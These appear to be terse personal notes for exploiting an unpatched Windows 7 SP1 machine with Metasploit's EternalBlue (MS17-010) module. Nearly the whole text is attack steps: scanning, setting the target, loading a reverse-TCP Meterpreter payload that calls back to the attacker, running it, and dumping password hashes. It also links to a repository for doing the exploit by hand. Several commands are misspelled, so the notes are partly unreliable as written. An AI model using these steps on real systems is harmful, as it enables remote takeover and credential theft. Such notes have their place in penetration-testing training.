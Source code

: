 Windows 7 Ultimate 7601 Service Pack 1 
then smfconsole: searche eternalblue 
use scanner
options 
set rhosts

search eternalblue
use explot/windows/eternalblue
options
set rhost
check
set payload /windows/x64/meterpreter/reverse-tcp
set lhost eth0
run

hashdump : to see admin hash ..

RCE can take down a machine


# manually:
https://github.com/3ndG4me/AutoBlue-MS17-010